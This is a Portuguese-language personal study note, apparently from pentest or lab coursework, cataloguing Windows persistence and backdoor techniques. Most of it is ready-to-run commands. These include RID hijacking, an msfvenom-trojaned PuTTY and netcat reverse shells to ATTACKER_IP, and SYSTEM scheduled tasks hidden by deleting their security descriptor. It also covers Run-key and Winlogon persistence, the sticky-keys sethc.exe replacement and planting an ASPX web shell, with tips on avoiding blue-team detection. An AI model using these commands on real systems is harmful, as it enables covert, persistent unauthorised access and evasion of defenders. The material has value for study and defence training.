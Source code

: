 #techniques #techniques/privesc #techniques/privesc/windows #windows 

## Interferindo em contas não privilegiadas
### Virando membro de grupos

Assumindo que já tenha acesso a um usuário. A gente pode adicionar ele no grupo de admins, no grupo de backup e é necessário adicionar ele no grupo para fazer acesso remoto.

```prompt
net localgroup administrators [user] /add
net localgroup "Backup Operators" [user] /add
net localgroup "Remote Management Users" [user] /add
```

Porém ao realizar um acesso remoto, o "Backup Operators" estará desabilitado pelo UAC (User Account Control) pelo política **LocalAccountTokenFilterPolicy**. Então é preciso desabilitar nos registros.

```prompt
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

### [[Windows Privilege Escalation#SeBackup / SeRestore|SeBackup/SeRestore]] 

É possível ativar essas duas permissões e seria a mesma coisa que adicionar o usuário no grupo de "Backup Operators".

```powershell
secedit /export /cfg config.inf
notepad config.inf
```

No final da linha dos privilégios (SeBackupPrivilege e SeRestorePrivilege) adicionar o nome do usuário.

```powershell
secedit /import /cfg config.inf /db config.sdb
secedit /configure /db config.sdb /cfg config.inf
```

Outra forma de dar acesso remoto ao usuário é por meio da descrição de segurança.

```powershell
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
```

![[Pasted image 20240429103022.png]]

### RID Hijacking

O RID (Relative ID) é um ID de usuário salvo no SAM usado ao fazer login pelo LSASS para criar um token associado a esse RID. Se conseguir interferir no valor de registro podemos fazer o Windows atribuir um token de admin a um usuário comum.

RID admin = 500
RID usuario >= 1000

```prompt
wmic useraccount get name,sid
```

Para manipular o RID é preciso abrir o SAM nos registros `HKLM\SAM\SAM\Domains\Account\Users\`, que é acessível apenas para o *SYSTEM*, ou seja, nem o Administrator consegue editar.

```prompt
PsExec64.exe -i -s regedit
```

Para alterar o RID do usuário em questão, basta mudar os registros para (0x01F4)

![[Pasted image 20240429111529.png]]

## Backdooring Files

Outra forma é implantar um backdoor um arquivos que sabemos que o usuário interage regularmente.

### Executáveis

Executáveis que estão no *Desktop* ou na *Task Bar* tem chance de ser programas que o usuário utiliza com frequência. Se por exemplo o usuário usa o PuTTY é possível criar um backdoor com *msfvenom*.

```shell
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

### Shortcut

Também é possível mudar o caminho do executável para um backdoor por exemplo:

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```

![[Pasted image 20240429113650.png]]

### Hijacking File Associations

É possível forçar o SO a rodar um shell quando um tipo de arquivo é aberto. 

Os tipos de arquivos (extensões) reconhecidos pelo SO está em `HKLM\Software\Classes\`. Se eu quiser alterar o `.txt` eu preciso descubrir o seu **ProgID**.

![[Pasted image 20240429115753.png]]

Ao descobrir, eu vejo qual programa que executa para abrir um `.txt` (no caso o notepad.exe)

![[Pasted image 20240429115834.png]]

Com essa informação eu posso alterar o registro para chamar um backdoor que abre uma shell remota e em seguida o `.txt` em questão. 

```
powershell -windowstyle hidden C:\windows\backdoor.ps1 %1
```

O `%1` é um argumento que irá passa para o notepad o nome do arquivo que ele irá abrir `C:\Windows\system32\NOTEPAD.EXE $args[0]` (isso tem que está no meu backdoor para o usuário não desconfiar).

## Abusando de serviços

Usar serviços para garantir a persistência é uma boa forma também, pois o usuário não irá perceber e o serviço ao iniciar junto com a máquina, irá rodar em background.
### Criando um serviço

```prompt
sc.exe create [serviço] binPath= "C:\windows\backdoor.exe" start= auto
sc.exe start [serviço]
```

### Modificando um serviço existente

Ao criar um serviço, o *blue team* pode detectar, então para evitar esta detecção, reutilizar um serviço é uma boa opção.

[[Windows Privilege Escalation#Service Misconfigurations|Service Misconfiguration]]


## Scheduled Tasks

### Criando uma tarefa agendada

```prompt
schtasks /create /sc minute /mo 1 /tn [nome da tarefa] /tr "c:\tools\nc64 -e cmd.exe [IP] 4449" /ru SYSTEM
```

### Escondendo a task

É preciso deletar o **Security Descriptor (SD)** da task para que ela não esteja visível ao listar.

`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\[task criada]`

## Logon Triggered

### Startup folder

Para fazer um backdoor rodar junto com o sistema para todos os usuários basta salva ele em: `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

### Run / RunOnce

Também é possível fazer o mesmo usando registro e não um diretório específico.

- `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

Criar um registro `REG_EXPAND_SZ` e no valor passa o caminho do backdoor

![[Pasted image 20240429145139.png]]
### Winlogon

Em `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\` adicionar o backdoor nos registros `shell` ou `Userinit`.

### Logon scripts

O `userinit.exe` carrega o perfil do usuário e verifica por variáveis de ambiente chamadas pelo `UserInitMprLogonScript`.

![[Pasted image 20240429151100.png]]

## Login Screen

É possível fazer backdoor na tela de login quando não possui as credenciais de uma máquina.

### Sticky Keys

Ao apertar 5x o `SHIFT` vai abrir uma janela do **Sticky Keys** gerada pelo `C:\Windows\System32\sethc.exe`.  Tomando posse desse executável a gente consegue acesso sem precisar fazer o login (precisa do RDP ou acesso físico)

```prompt
takeown /f c:\Windows\System32\sethc.exe
icacls C:\Windows\System32\sethc.exe /grant Administrator:F
copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
```

### [[Windows Privilege Escalation#SeTakeOwnership|Utilman]]

## Aplicações

### Web Shell

```
move shell.aspx C:\inetpub\wwwroot\
icacls shell.aspx /grant Everyone:F
```

O usuário em questão é `iis apppool\defaultapppool` que é um usuário não privilegiado, porém possui [[Windows Privilege Escalation#SeImpersonate / SeAssignPrimaryToken|SeImpersonatePrivilege]].

